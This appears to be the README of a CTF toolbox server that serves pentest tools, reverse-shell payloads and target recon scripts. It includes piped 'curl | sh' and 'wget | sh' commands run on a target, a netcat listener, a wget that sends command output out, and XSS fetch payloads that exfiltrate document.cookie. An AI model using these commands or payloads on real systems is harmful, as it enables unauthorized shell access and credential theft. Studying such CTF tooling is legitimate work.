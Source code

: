 # toolbox

## Installing

Note: When running `git clone`, you will need to configure Git to authenticate with SSH, or you can create a [disposable personal access token](https://docs.github.com/en/free-pro-team@latest/github/authenticating-to-github/creating-a-personal-access-token#creating-a-token) with access to private repositories enabled and use that in conjunction with your username to authenticate.

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
git submodule update --init --recursive
pip3 install -r requirements.txt
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Remote target recon

In some scenarios may we have gained initial remote code execution, and we want to upgrade this to a fully working shell.

The `recon.sh` script is great in this scenario as it will log information about the remote target which you can use to select teh best reverse shell payload.

On the host machine execute the `recon.sh` script with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as root, and has busybox `nc` and `python3` available - which is enough information to get a shell:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The debugging endpoint can be great for validating XSS payloads too. For instance within JavaScript:

```javascript
fetch("http://server_ip:8000/debug/xss_code_executed");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens:

![Upload file name](./images/upload_file.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv lock -r > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Running all tests:

```
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

Add a debugging breakpoint with:

```python
breakpoint()
```

Updating snapshots:

```shell
pytest --snapshot-update
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + datafiles + licenses
- Add additional files:
  - Static pspy64
  - Static Docker client
